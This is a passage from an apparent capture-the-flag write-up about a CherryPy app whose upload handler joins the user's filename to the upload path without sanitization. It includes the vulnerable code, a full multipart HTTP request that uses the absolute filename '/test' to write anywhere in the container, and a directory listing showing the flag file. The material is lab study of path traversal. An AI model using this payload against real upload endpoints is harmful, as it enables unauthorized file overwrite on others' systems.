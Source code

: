 ```py

    upload_path = os.path.join(uploads_dir, file.filename)
    with open(upload_path, 'wb') as f:
        while chunk := file.file.read(8192):
            f.write(chunk)

    raise cherrypy.HTTPRedirect('/admin')
```

We can see that after the checks are made to the request, the file is written to the path that is created by joining the upload path and the user provided filename directly, without any sanitization, so this means that by using a traversal payload it is possible for us to write into any file on the container.

```
POST /upload_file HTTP/1.1
Host: localhost:1337
Content-Length: 197
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:1337
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDg9T2QJmcABgQLzB
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:1337/admin
Accept-Encoding: gzip, deflate, br
Cookie: session_id=0d1260c1f1b4ebc5f86fa8e994ca40324dd596d5
Connection: keep-alive

------WebKitFormBoundaryDg9T2QJmcABgQLzB
Content-Disposition: form-data; name="file"; filename="/test"
Content-Type: application/octet-stream

test
------WebKitFormBoundaryDg9T2QJmcABgQLzB--
```

By sending a request like this, with the absolute path `/test` in the filename.

```
/app # ls -la /
total 120
drwxr-xr-x    1 root     root          4096 Jan  5 13:40 .
drwxr-xr-x    1 root     root          4096 Jan  5 13:40 ..
-rwxr-xr-x    1 root     root             0 Jan  5 13:06 .dockerenv
drwxr-xr-x    1 root     root          4096 Jan  5 13:06 app
drwxr-xr-x    1 root     root          4096 Dec  9 20:43 bin
drwxr-xr-x    5 root     root           360 Jan  5 13:06 dev
-rw-------    1 root     root           371 Jan  1 07:20 entrypoint.sh
drwxr-xr-x    1 root     root          4096 Jan  5 13:06 etc
-rw-r--r--    1 root     root            26 Jan  1 07:20 flag660eeda1ff.txt
drwxr-xr-x    2 root     root          4096 Dec  5 12:17 home
drwxr-xr-x    1 root     root          4096 Dec  5 12:17 lib
drwxr-xr-x    5 root     root          4096 Dec  5 12:17 media
drwxr-xr-x    2 root     root          4096 Dec  5 12:17 mnt
```